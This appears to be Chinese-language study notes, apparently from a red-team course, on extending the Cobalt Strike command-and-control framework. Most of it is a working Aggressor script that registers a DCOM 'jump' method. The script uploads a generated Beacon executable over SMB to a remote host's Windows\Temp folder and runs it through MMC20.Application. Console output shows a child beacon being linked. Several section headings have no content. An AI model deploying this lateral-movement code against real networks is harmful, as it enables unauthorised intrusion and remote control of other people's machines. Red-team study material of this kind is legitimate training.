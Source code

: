 # Extending Cobalt Strike

这一章主要讲C2的扩展


（作者认为）好的C2框架必须具备可定制化，可扩展。

# Elevate Kit

# Jump & Remote-Exec

将 Invoke-DCOM.ps1 集成到jump
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

```$+```是一个字符串的连接符号，两边都需要加空格
```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    dcom                      x64   Use DCOM to run a Beacon payload
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM

beacon> getuid
[*] Tasked beacon to get userid
[*] You are DEV\bfarmer

beacon> jump dcom srv-1 smb
[*] Tasked Beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-1 via DCOM
[+] established link to child beacon: 10.10.17.25
[+] received output:
Completed
```

# Beacon Object Files

# Malleable Command & Control